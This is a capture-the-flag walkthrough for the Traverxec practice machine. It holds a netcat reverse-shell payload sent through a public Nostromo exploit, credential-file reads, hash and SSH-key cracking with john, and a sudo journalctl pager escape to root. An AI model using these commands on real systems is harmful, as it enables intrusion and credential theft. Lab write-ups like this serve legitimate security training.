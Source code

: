 ## Traverxec | IP: 10.10.10.165

### Enumeration

##### Services

- 22
	+ OpenSSH 
- 80
	+ Nostromo 1.9.6
		* **nostromo 1.9.6 - Remote Code Execution** - [exploit-db](https://www.exploit-db.com/exploits/47837)


### Web shell

> Using -  https://www.exploit-db.com/exploits/47837

```
local$ python 47837.py 10.10.10.165 80 "nc -e /bin/bash 10.10.14.141 4444"
```
In another shell,

```
local$ nc -nlvp 4444 
# after getting connection,
python -c 'import pty; pty.spawn("/bin/bash")' # to spawn a TTY
www-data@traverxec:~$
```

### User

*Enumeration is key*

###### User #1

```
www-data@traverxec:~$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Pass this hash to `john` with `wordlist=rockyou.txt`, we get password `Nowonly4me`.

Also,

###### User #2

```
www-data@traverxec:~$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/.momd/
```

Transfer this file to our local machine, unzip it.

Pass the `id_rsa` to `ssh2john.py`, then to `john` with `wordlist=rockyou.txt`. We get cracked password `hunter`.

```
local$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
```

on prompt, enter ``hunter`. Now we are logged in as user `david`.

```
david@traverxec:~$ cat /home/david/user.txt
[--------------------------]2f3d
```

### Getting Root

Need to make the terminal screen as small as possible (this will execute [the linux pager](https://unix.stackexchange.com/questions/144016/what-is-a-pager) - or use the the command `less`)

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
-- Logs begin at Wed 2020-02-12 12:26:03 EST, end at Wed 2020-02-12 12:46:41 EST. --
Feb 12 12:41:41 traverxec sudo[2355]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty
Feb 12 12:43:07 traverxec su[2462]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts
Feb 12 12:43:09 traverxec su[2462]: FAILED SU (to david) www-data on pts/6
Feb 12 12:43:17 traverxec su[2472]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts
Feb 12 12:43:19 traverxec su[2472]: FAILED SU (to david) www-data on pts/6
!/bin/bash
root@traverxec:/home/david/bin# cat /root/root.txt
[--------------------------]d906
```

### Trophy

![trophy](trophy.png)